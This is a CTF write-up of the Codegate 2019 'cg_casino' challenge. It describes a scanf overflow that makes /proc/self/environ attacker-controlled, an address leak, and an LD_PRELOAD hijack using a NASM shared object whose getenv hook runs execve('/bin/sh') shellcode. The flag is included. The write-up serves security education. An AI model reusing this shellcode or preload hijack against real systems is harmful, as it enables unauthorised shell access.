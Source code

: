 # Codegate CTF 2019 Preliminary
## cg_casino
* `CODEGATE{24cb1590e54e43b254c99404e4f86543}`
* [hook.S](https://github.com/ssspeedgit00/CTF/blob/master/2019/codegate/cg_casino/hook.S)
* [flag.py](https://github.com/ssspeedgit00/CTF/blob/master/2019/codegate/cg_casino/flag.py)
### The challege
* The files
```
.
├── Dockerfile
├── docker-compose.yml
├── libc.so.6
├── share
│   ├── cg_casino
│   └── flag_XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
├── tmp
└── xinetd
```
* Menu
```
$$$$$$$$$$$$$$$$$$$$$$$$$$$
$$$$$$$  CG CASINO  $$$$$$$
$$$$$$$$$$$$$$$$$$$$$$$$$$$
1) put voucher
2) merge voucher
3) lotto
4) up down game
5) slot machine
6) exit
>
```
We can use `put voucher` to named a new file, `merge voucher` will read `0x1000` byte from the file by giving file name and write it to the new file. There are also some meaningless-seemed gambling games.
### Control the content of file
We are not able to control the content of file by opening `/dev/stdin` or `/proc/self/fd/0` due to the docker configuration. That means we need to find out some file already existed and its content is controllable.
There are some file we can think about it under `/proc/self/`: mem, stack, environ, etc.
The `/proc/self/environ` is interesting in this case, because there are `**envp` on the stack and they are point to the strings of `environ`, and there is a buffer overflow occurred by `scanf` in the `main` function of the binary.
We test whether the content of `/proc/self/environ` will changed by overwrite the `environ` on the stack, the result:
```shell
gdb-peda$ x/s 0x7ffc68771274
0x7ffc68771274:	'a' <repeats 16 times>
gdb-peda$ cat /proc/106464/environ
aaaaaaaaaaaaaaaabin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/binHOSTNAME=58f0e86c0c81ERASER1=AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA...
```
That's awesome!
### Information leak
There is inforamtion leak by input non numeric chracter when you play `lotto`, but only leak the address of libc at first. When you play `slot machine` first, then play `lotto`, you can leak the address of stack this time.
### Exploit
For now we are able to upload a 0x1000-byte file. We found `slot machine` will call `system("/usr/local/clear")`, So we decided to upload `hook.so` file, hook the function that will be called by `/usr/bin/clear`.
* hook.S
```nasm
; nasm -f elf64 hook.S -o hook.o && ld --shared hook.o -o hook.so
; ubuntu 16.04 GNU ld (GNU Binutils for Ubuntu) 2.26.1
[BITS 64]
	global getenv:function
	section .text
getenv:
	mov rax, 0x68732f6e69622f
	push rax
	mov rdi, rsp
	xor esi, esi
	push 0x3b
	pop rax
	cdq
	syscall
```
There was an interesting thing, when we linked it with `ld` in ubuntu 18.04, the size of ELF came out was too big, but with the old version of `ld` in ubuntu 16.04 the size will be small enought. Awesome again!

Upload `hook.so` and overwrite `LD_PRELOAD=./hook.so` then call `slot machine` to trigger `system("/usr/local/clear")`, `getenv` will be hooked by `hook.so` and execute our shellcode.
* [flag.py](https://github.com/ssspeedgit00/CTF/blob/master/2019/codegate/cg_casino/flag.py)
### The flag: `CODEGATE{24cb1590e54e43b254c99404e4f86543}`